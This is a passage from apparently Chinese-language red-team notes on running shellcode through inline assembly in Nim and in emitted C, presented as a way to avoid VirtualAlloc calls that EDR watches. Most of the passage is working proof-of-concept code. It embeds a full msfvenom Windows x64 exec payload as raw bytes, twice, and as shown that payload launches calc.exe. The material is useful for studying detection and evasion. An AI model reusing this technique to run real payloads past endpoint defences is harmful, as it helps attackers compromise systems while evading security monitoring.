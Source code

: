 ```
        jno theEnd
        theEnd:
        ret
    """

var p = GetTEBAsm64()
echo repr(p)   
```
## 内联汇编加载shellcode
可以在C/C++程序中内联汇编执行shellcode。它不需要你调用“VirtualAlloc” WIN API来分配新的RWX内存，众所周知该API受到EDR的严密监控。代码将嵌入到PE文件的“.text”（代码段），而代码段默认情况下是可执行的。  

nim c -r --cpu:amd64 poc.nim
```
{.passC:"-masm=intel".}

proc runsc(): void =
    # msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f csharp
    asm """
        .byte 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xaa,0xc5,0xe2,0x5d,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
        ret
    """

runsc()
```
或者
```
{.emit: """
#include <Windows.h>
#include <stdio.h>

int myThead() {
	printf("spotless");
    asm(".byte 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xaa,0xc5,0xe2,0x5d,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00\n\t"
		"ret\n\t");
	return 0;
}
```